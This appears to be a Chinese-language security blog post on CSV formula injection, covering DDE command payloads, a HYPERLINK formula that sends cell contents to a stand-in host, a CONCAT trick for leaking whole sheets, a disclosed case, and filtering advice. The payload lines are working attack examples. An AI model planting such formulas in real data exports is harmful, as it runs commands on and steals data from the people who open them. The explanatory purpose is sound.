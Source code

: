 ```yaml
---
layout: post
title: CSV Injection Vulnerability
---
```

#### 0x01 概述

现在很多应用提供了导出电子表格的功能（不限于 Web 应用），早在 2014 年 8月 29 日国外 James Kettle 便发表了《Comma Separated Vulnerabilities》文章来讲述导出表格的功能可能会导致注入命令的风险，因为导出的表格数据有很多是来自于用户控制的，如：投票应用、邮箱导出。攻击方式类似于 XSS ：所有的输入都是不可信的。

#### 0x02 公式注入 & DDE

我们知道在 Excel 中是可以运行计算公式的： ``` =1+5 ```，它会将以 = 开头的单元格内容解释成公式并运行，单纯的运行计算公式可能没什么用，但这里可以用到 DDE 。[Dynamic Data Exchange](https://msdn.microsoft.com/en-us/library/windows/desktop/ms648774(v=vs.85).aspx)（DDE）是一款来自微软的古老技术，它是 Windows 下的一种跨进程通信的协议，支持 Microsoft Excel， LibreOffice 和 Apache OpenOffice。

执行 cmd 弹出计算器：

    =cmd|' /C calc'!A0

![https://ooo.0o0.ooo/2016/05/17/573ada31da5ae.png](https://ooo.0o0.ooo/2016/05/17/573ada31da5ae.png)

当然也可以使用 -cmd ，+cmd 来执行 DDE ，这个问题在2014年进行了修复（CVE-2014-3524），所以我们现在注入命令执行时软件会有如下的提示：

![https://ooo.0o0.ooo/2016/05/17/573adb7994037.png](https://ooo.0o0.ooo/2016/05/17/573adb7994037.png)

![https://ooo.0o0.ooo/2016/05/17/573adb6c6d9dd.jpg](https://ooo.0o0.ooo/2016/05/17/573adb6c6d9dd.jpg)

这也就是现在这个漏洞类型的特殊性，虽然软件有着这样的安全风险提醒但仍有大量的厂商承认并修复潜在的漏洞威胁：

- [https://hackerone.com/reports/90274](https://hackerone.com/reports/90274)
- [https://hackerone.com/reports/111192](https://hackerone.com/reports/111192)
- ...

其中很大的一方面是由于信任域的原因导致用户仍可能受到攻击，用户在 security.com 域下导出自己的Guestbook.csv ，但由于恶意用户偷偷的在留言板中插入了恶意代码：

    =HYPERLINK("http://rm-rf.gg?test="&A2&A3,"Error: Please click me!")

这样就导致当用户在导出报表后倘若点击了某个单元格则会导致 A2,A3 的单元格内容泄露：

![https://ooo.0o0.ooo/2016/05/17/573adcfad9d32.jpg](https://ooo.0o0.ooo/2016/05/17/573adcfad9d32.jpg)

所以说这个漏洞是要看背景的，由于它的特殊性（当然也可以配合社工），也就会出现厂商在审核此类漏洞时明明是一个 CSV Injection 漏洞但不会确认修复的情况。

#### 0x03 实例

之前报告给腾讯的《CSV Injection on wj.qq.com》漏洞（已经修复）：

![https://ooo.0o0.ooo/2016/05/17/573ade4459a27.png](https://ooo.0o0.ooo/2016/05/17/573ade4459a27.png)

用户发起投票后，攻击者可以注入CSV 公式/DDE代码，之后管理员进入投票结果页面导出 EXCEL ：

    ➜  /tmp cat 465864_seg_1.csv
    "编号","开始答题时间","结束答题时间","自定义字段","1.您使用过xx网吗？","2.您的性别","3.您的年龄？","4.您的婚姻状况","5.您的最高学历","6.您的月收入（或每月生活费）","7.您是否觉得xx网很容易找到","8.您对网站logo的满意程度（logo即网站的品牌标识）","9.对导航栏目的满意程度","10.对网站页面设置及布局的满意程度","11.对网站内容编排的满意程度","12.对网站色彩风格的满意程度","13.对网站字体的满意程度","14.与同类网站相比，您对xx上的价格满意吗","15.您对xx目前整体的产品质量水平感觉如何","16.您觉得xx上的商品信息的可信度怎么样","17.您觉得xx的售后服务怎么样","18.您觉得xx更新信息的及时性怎么样","19.您的咨询或抱怨通常会得到及时的回复吗","20.您觉得xx的交易和评价几率真实可靠吗","21.您觉得xx网能很好的保证交易时的安全性吗","22.123123123",
    "1","2016-04-27 19:26:45","2016-04-27 19:27:27","","A.使用过","A.男","C.26-30岁","B.未婚","D.本科","I.不方便透露","B.否","3","3","3","3","3","3","3","3","3","3","3","A.是","A.是","A.是","",
    "2","2016-04-27 19:27:30","2016-04-27 19:28:09","","A.使用过","A.男","D.31-40岁","B.未婚","B.高中/中专","D.3001-5000元","A.是","3","3","4","4","4","4","4","4","4","4","4","A.是","B.否","A.是","=cmd|'/k ipconfig'!A0",
    
可以看到在用户留言的字段，成功的注入：```=cmd|'/k ipconfig'!A0``` ，当然也可以通过不触发安全警告的前提下窃取管理员导出的 CSV 数据，也就是前面提到的 ```=HYPERLINK``` 。

#### 0x04 关于全文信息泄露

之前使用 &A1&A2&A3&A4 窃取表单数据的方式看起来有点笨重，我找到了一种新的方法来更方便的窃取全文信息：[https://support.office.com/en-us/article/CONCAT-function-9b1a9a3f-94ff-41af-9736-694cbd6b4ca2?ui=en-US&rs=en-US&ad=US](https://support.office.com/en-us/article/CONCAT-function-9b1a9a3f-94ff-41af-9736-694cbd6b4ca2?ui=en-US&rs=en-US&ad=US)

> APPLIES TO: Excel 2016, Excel Online, Excel for Android tablets, Excel Mobile, Excel for Android phones, Less.

2016 之前的 excel 和其他的版本的连接字符串的函数 concatenate 不支持 cell range 的语法，也不能自定义函数，这样的话就没有办法简写，只能生成比较长的url，但 2016 之后的 excel 我们可以使用 concat 函数，支持传入一个 range，比如 concat(A1:A10) ，这样便能直接读取整个表格中的数据。

#### 0x05 修复方案

过滤公式所用到的特殊字符（不应盲目过滤），因为个别情况下可能会影响产品的正常功能使用：

- 手机号码 +86 xxxxx 
- 邮箱地址 @test.com
- 字符串 test-injection
- ...

#### 0x06 参考

1. [http://www.contextis.com/resources/blog/comma-separated-vulnerabilities/](http://www.contextis.com/resources/blog/comma-separated-vulnerabilities/)
2. [http://www.freebuf.com/vuls/102790.html](http://www.freebuf.com/vuls/102790.html)
3. [https://hackerone.com/reports/90274](https://hackerone.com/reports/90274)
4. [https://support.office.com/en-us/article/CONCAT-function-9b1a9a3f-94ff-41af-9736-694cbd6b4ca2?ui=en-US&rs=en-US&ad=US](https://support.office.com/en-us/article/CONCAT-function-9b1a9a3f-94ff-41af-9736-694cbd6b4ca2?ui=en-US&rs=en-US&ad=US)